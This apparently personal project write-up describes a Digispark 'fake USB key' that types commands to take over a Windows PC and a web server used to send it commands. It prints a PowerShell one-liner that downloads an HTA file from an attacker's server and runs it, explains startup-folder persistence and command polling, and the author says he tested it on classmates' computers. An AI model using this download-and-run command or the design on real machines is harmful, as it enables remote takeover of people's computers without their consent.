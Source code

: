 MiniML 1.0
//Copyright Emilien Breton

Demo
----

I recently posted {a video:: https://www.youtube.com/watch?v=vo7N044aZvU} on my {YouTube Channel:: https://www.youtube.com/channel/UCGj6pfxZ0XYJU29XNwXPPxg/featured} showing how easy it is to take control of a computer with a fake USB key. Here it is:
# demo
	<div class="iframe-container"><iframe width="560" height="315" src="https:\/\/www.youtube.com\/embed\/vo7N044aZvU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe><\/div>

Essentially, when you plug the USB key in a PC, it types commands to give control of your computer to the attacker. Once a computer is infected, you will be able to control it by going to a website from another computer or even from a cell phone!


How it Works
------------

The /fake USB key/ is in fact made from an arduino-compatible board, a [Digispark]. You can buy some from {here:: https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p}.
""Arduino is an open-source hardware and software company, project and user community that designs and manufactures single-board microcontrollers and microcontroller kits for building digital devices.
{Wikipedia:: https://en.wikipedia.org/wiki/Arduino}""
It also has a custom case, made using /3D printing/. You can {download the STL file here:: ./Case 4 v9.stl}.

Arduino boards are perfect for small electronics projects. However, the [Digispark] is a special /Arduino/ board: it can be programmed to automatically send keystrokes to a computer, and this is the key to easily infect a computer in a matter of seconds. It types commands really fast to download a program from a remote server, which itself copies itself on the computer so that it starts up as soon as the infected computer boots.

After that, the attacker goes to the server's [IP] address on a web browser to connect to it. From the web interface, he can send commands in [JavaScript], [JScript] or even use /CMD/ or /PowerShell/ to do literally everything he wants to the infected computer.

Under the Hood
--------------

What I find most interesting about this project is how it all works /under the hood/. First, let's talk about the commands typed by the "USB" key (the {Digispark:: https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p}) to easily infect a computer. It opens up /Windows PowerShell/ using the /Run/ prompt, and then types the following command:
	[[
	$p = "$env:temp/client.hta";(New-Object System.Net.WebClient).DownloadFile("http:\/\/ /SERVER IP/ /client.hta", $p);cd $env:temp;start -PSPath $p;
	]]
What this command does is simple: it navigates to "http:\/\/ /SERVER IP/ \/client.hta" and downloads the client.hta file onto the user's hard drive, in the [TEMP] directory. Once this is done, it executes it, which copies it on the user's startup folder (so that it runs every time the machine boots up) and constantly pings the server using a [POST] request to see if a command is available.
""In computing, POST is a request method supported by HTTP used by the World Wide Web. By design, the POST request method requests that a web server accepts the data enclosed in the body of the request message, most likely for storing it. It is often used when uploading a file or when submitting a completed web form.
{Wikipedia:: https://en.wikipedia.org/wiki/POST_(HTTP)}""


Here is how the /server/ works:
	* When the server is sent a [POST] request, it looks up in its database to see if a command is ready to be sent to the infected computer. If so, it sends the [JavaScript] command as a response to the [POST] request.
	* When the server is sent a [GET] request with the corresponding /password/, it just responds with the webpage for the attacker, in order to be able to send commands wirelessly. If the [GET] request contains an [IP] address and a command, then it is stored in the database, waiting for an infected computer to ask for its command. As said previously, when this happens, the command is sent to the victim computer for it to execute.
	* Finally, when the server is asked for the [log], it sends all the commands from the database with their responses from the infected computer, so that they can be displayed on the attacker's web interface.


Final Words
-----------

This is a project that took me a while to polish down to its final shape. Now that it is completed, I am really happy with the result! Even if I do not recommend you do so, I have tested it successfully on my classmates' computers, and their reactions were priceless.
